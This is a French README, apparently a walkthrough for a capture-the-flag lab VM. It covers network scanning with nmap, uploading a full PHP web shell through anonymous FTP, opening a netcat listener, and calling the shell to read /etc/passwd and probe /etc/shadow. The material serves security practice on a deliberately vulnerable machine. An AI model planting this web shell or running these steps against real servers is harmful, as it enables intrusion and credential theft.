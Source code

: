 # Real Readme

# télécharger
```01-Local1.ova```

# mettez ceci 
```sha1sum 01-Local1.ova```

# et regardez si le résultat est
```f3422f3364fd38e8183740f8f57fa951d3f6e0bf```

# installer virtualbox si ce n'est pas encore fait
```sudo apt update && sudo apt install -y virtualbox```

# assure toi d'avoir les outils nécessaires
```sudo apt update && sudo apt install -y net-tools nmap john hydra metasploit-framework```

# double clic sur ```01-Local1.ova```

# donnez 4096MB comme RAM
au lieu de de 512

# Changez l'adapter en NAT
au lieu de Bridge

# assure toi que la machine virtuelle
soit activée

# mettez ceci
nmap -sn 192.168.1.0/24

# sélectionnez l'adresse de la VM et mettez ceci
nmap -A ```adresse```

# se connecter
se connecter et examiner les fichiers trouvés

# créer webshell.php et y mettre ceci:
```
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    $cmd = ($_GET['cmd']);
    system($cmd);
    echo "</pre>";
}
?>
```

# mettre ceci
ftp 192.168.1.26
login: anonymous
pwd: Entrée (le bouton)

# téléverser le fichier
```put webshell.php```

# éxécuter ceci dans un terminal
nc -lvnp 4444

# mettre ceci dans le navigateur:
- http://ADRESSE_IP_VM/files/webshell.php?cmd=cat%20/etc/passwd
- http://192.168.1.26/files/webshell.php?cmd=ls%20-l%20/etc/shadow
- http://192.168.1.26/files/webshell.php?cmd=cat%20/var/backups/apt.extended_states.1.gz